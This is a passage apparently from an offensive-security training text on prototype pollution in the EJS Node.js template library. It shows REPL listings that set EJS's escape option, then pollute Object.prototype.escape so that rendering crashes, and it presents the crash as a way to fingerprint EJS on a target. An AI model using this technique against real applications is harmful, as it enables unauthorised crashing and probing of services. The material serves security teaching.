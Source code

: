Reviewing the beginning of the Template class, we find that the options object is parsed from lines 516-525. However, many values are only set if the value exists. This is a perfect location to inject with a prototype pollution vulnerability.

The escapeFunction value is set to the opts.escape value. If we remember the modifications to the toString function, when an application or library expects a function but instead receives a string, the application crashes.

Let's set this option to a function, as the application expects, and review the output.

> o = {
...   "escape" : function (x) {
.....     console.log("Running escape");
.....     return x;
.....   }
... }
{ escape: [Function: escape] }

> ejs.render("Hello, <%= foo %>", {"foo":"world"}, o)
Running escape
'Hello, world'
Listing 56 - Custom Escape Function

Our escape function accepts a parameter(x), logs a message, and returns the x parameter. When rendering a template with the escape function, the message is logged and the template is returned.

Next, let's replace the function with a string, and observe the error.

> o = {"escape": "bar"}
{ escape: 'bar' }

> ejs.render("Hello, <%= foo %>", {"foo":"world"}, o)
Uncaught TypeError: esc is not a function
    at rethrow (/usr/src/app/node_modules/ejs/lib/ejs.js:342:18)
    at eval (eval at compile (/usr/src/app/node_modules/ejs/lib/ejs.js:662:12), <anonymous>:15:3)
    at anonymous (/usr/src/app/node_modules/ejs/lib/ejs.js:692:17)
    at Object.exports.render (/usr/src/app/node_modules/ejs/lib/ejs.js:423:37)
Listing 57 - Escape Function Set to String

As expected, the application throws an error. We can also verify that we can inject into this option with prototype pollution by polluting the Object prototype and passing in an empty object.

> {}.__proto__.escape = "haxhaxhax"
'haxhaxhax'

> ejs.render("Hello, <%= foo %>", {"foo":"world"}, {})
Uncaught TypeError: esc is not a function
    at rethrow (/usr/src/app/node_modules/ejs/lib/ejs.js:342:18)
    at eval (eval at compile (/usr/src/app/node_modules/ejs/lib/ejs.js:662:12), <anonymous>:15:3)
    at anonymous (/usr/src/app/node_modules/ejs/lib/ejs.js:692:17)
    at Object.exports.render (/usr/src/app/node_modules/ejs/lib/ejs.js:423:37)
Listing 58 - Setting Escape in the Object Prototype

This also returns an error. However, this is great for us because we can determine if the target application is running EJS. If a prototype pollution vulnerability sets escape to a string, and the application crashes, we know we are dealing with an application running EJS.
